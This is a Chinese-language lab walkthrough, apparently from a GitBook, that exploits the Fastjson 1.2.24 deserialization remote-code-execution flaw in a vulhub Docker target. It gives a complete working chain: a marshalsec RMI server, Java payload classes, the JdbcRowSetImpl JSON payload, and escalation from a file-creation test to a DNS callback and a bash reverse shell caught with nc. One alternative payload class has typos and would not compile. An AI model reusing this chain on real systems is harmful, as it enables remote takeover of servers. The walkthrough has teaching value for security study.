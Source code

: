 # 1.2.24-rce

### 工具环境准备

下载marshalsec

{% embed url="https://github.com/mbechler/marshalsec" %}

下载好以后cd到marshalsec目录mvn编译它，会生成一个名为target的文件夹，开启rmi服务的工具在里面，如果没有mvn命令那用apt命令安装它

{% code lineNumbers="true" %}
```
apt install maven
mvn clean package -DskipTests
```
{% endcode %}

将这个POC保存到攻击机的目录，我这里将它命名为TouchFile.java

```
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

编译这个POC，并在当前目录用python开启一个http服务

{% code lineNumbers="true" %}
```
javac TouchFile.java
python3 -m http.server 8881
```
{% endcode %}

进入到marshalsec的target目录中在攻击机中开启rmi服务，指定加载类，并监听端口2345

```
┌──(root㉿kali)-[~/Desktop/test/jdk1.8.0_202/bin]
└─# ./java -cp ../../marshalsec/target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.1.110:8881/#TouchFile 2345
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
* Opening JRMP listener on 2345
```

将以下的payload放入到请求包单中发送请求，记得将请求包修改成POST请求

```
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.1.110:2345/TouchFile",
        "autoCommit":true
    }
}
```

Burp发送请求

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

可以看到RMI服务以及python请求都有相应，说明请求没有问题

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

POC中的命令是在靶机tmp目录创建一个success文件夹，我们进入到靶机的docker容器当中查看以下以确定没有任何问题

```
root@debian:~/vulhub/fastjson/1.2.24-rce# docker exec -it badb1f766db0 /bin/bash
root@badb1f766db0:/# ls
bin  boot  dev	etc  home  lib	lib64  media  mnt  opt	proc  root  run  sbin  srv  sys  tmp  usr  var
root@badb1f766db0:/# cd /tmp/
root@badb1f766db0:/tmp# ls
hsperfdata_root  success  tomcat-docbase.9077591842716910581.8090  tomcat.5885354487546599121.8090
```

可以看见文件创建成功，下面再尝试一下dnslog的方式来验证漏洞，将上面的POC命令修改以下

```
// TouchFile.java
// cmd run javac TouchFile.java 
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"ping", "www.k1mdihfsa4d4jv2kh73z8balmcs3g84x.oastify.com"};

            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
// do nothing
        }
    }
}
```

将原来的class文件删除重新编译，我这里用的是Burp自带的Dnslog平台，别忘记将请求包改成POST，发送请求，OK 有了响应，（如果有问题就重新运行一下rmi服务和python的http服务）

查看Burp的Dnslog平台，有了回显

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

去生成一个反弹shell的payload

```
bash -i >& /dev/tcp/192.168.1.110/8886 0>&1
```

{% embed url="https://www.revshells.com/" %}

修改POC并重新编译

```
// TouchFile.java
// cmd run javac TouchFile.java 
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/bash", "-c","bash -i >& /dev/tcp/192.168.1.110/8886 0>&1"};

            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
// do nothing
        }
    }
}
```

也可以用下面这个POC，作用都是一样是的

```
/*
 * getshell.java
 * 将其编译后生成Exploit.class
 * 上传到HTTP服务器
 */
public class GetShell{
    public GetShell(){
        Runtime.getRuntime.exec("bash -i >& /dev/tcp/192.168.1.110/8886 0>&1");//监听主机的IP和端口号
    }
    public static void main(Sring[] args){
        GetShell e = new GetShell();
    }
}
//直接使用静态代码块亦可
```

nc监听8886端口

```
┌──(root㉿kali)-[~]
└─# nc -lnvp 8886
listening on [any] 8886 ...
```

Brup发送请求，

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

查看nc的监听，返回了一个shell

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
